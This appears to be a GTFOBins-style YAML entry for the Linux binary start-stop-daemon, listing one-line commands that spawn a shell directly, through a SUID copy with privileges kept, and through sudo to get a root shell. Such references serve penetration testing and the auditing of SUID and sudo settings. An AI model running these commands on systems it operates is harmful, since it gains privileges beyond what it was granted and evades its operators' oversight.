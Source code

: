 ```yaml
---
name: start-stop-daemon
functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh
  suid:
    - code: ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  sudo:
    - code: sudo start-stop-daemon -n $RANDOM -S -x /bin/sh
---
```

